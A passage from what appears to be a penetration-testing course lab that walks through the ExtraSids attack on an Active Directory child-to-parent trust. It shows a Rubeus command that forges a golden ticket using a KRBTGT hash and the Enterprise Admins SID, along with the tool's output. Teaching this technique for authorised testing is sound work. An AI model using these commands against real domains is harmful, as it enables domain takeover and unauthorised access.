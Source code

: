 
## ExtraSids Attack - Rubeus

We can also perform this attack using Rubeus. First, again, we'll confirm that we cannot access the parent domain Domain Controller's file system.

#### Using ls to Confirm No Access Before Running Rubeus

  Attacking Domain Trusts - Child -> Parent Trusts - from Windows

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
At line:1 char:1
+ ls \\academy-ea-dc01.inlanefreight.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAcces 
   sException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
	
<SNIP> 
```

Next, we will formulate our Rubeus command using the data we retrieved above. The `/rc4` flag is the NT hash for the KRBTGT account. The `/sids` flag will tell Rubeus to create our Golden Ticket giving us the same rights as members of the Enterprise Admins group in the parent domain.

#### Creating a Golden Ticket using Rubeus

  Attacking Domain Trusts - Child -> Parent Trusts - from Windows

```powershell-session
PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
[*] SID            : S-1-5-21-2806153819-209893948-922872689
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-3842939050-3880317879-2865463114-519
[*] ServiceKey     : 9D765B482771505CBE97411065964D5F
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 9D765B482771505CBE97411065964D5F
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : LOGISTICS.INLANEFREIGHT.LOCAL

[*] Generating EncTicketPart
[*] Signing PAC
```
